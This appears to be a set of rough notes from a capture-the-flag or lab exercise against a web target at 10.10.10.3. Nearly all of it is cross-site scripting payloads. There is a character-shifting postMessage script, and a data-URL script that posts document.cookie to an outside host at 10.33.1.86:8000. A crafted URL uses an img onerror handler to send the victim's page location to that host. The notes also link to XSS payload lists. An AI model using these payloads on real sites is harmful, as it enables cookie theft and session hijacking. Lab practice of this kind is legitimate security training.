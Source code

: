 # B/W


Ip `10.10.10.3`

open port 80

# Available directory

admin
assets


# Simil payload

Query param debug=true enabled an event handler of message.

We can send a payload that will be encoded e passed as event ed inserted in a div

```js
payload   = [...'alert("ciao")'].map(i => String.fromCharCode(i.charCodeAt(0) - 3))

window.postMessage(payload.map(i=>String(i)), 'http://10.10.10.3')
```

In `feat.js` the code will render the payload but... why 


#PAYLOAD

`data:text/html;charset=utf-8,<script>fetch('http://10.33.1.86:8000/index.php', {method:'post',body:document.cookie}).then(res=>res.text()).then(console.info).catch(console.error)</script>`


## tring with postMessage

`data:text/html;charset=utf-8,<script>window.postMessage(document.cookie)</script>`


- https://samy.blog/element.innerhtml-and-xss-payloads/
- https://github.com/payloadbox/xss-payload-list

data:text/html;charset=utf-8,<script>document.write('&lt;script>alert(document.domain)</scr'+'ipt&gt;')</script>

`http://10.10.10.3/?debug=true&url=data%3Atext/html%3Bcharset%3Dutf-8%2C<img%20src%3D"x"%20onerror%3D"window.location.href%3D%27http%3A//10.33.1.86%3A8000%3Fd%3D%27%2Bwindow.location.href">`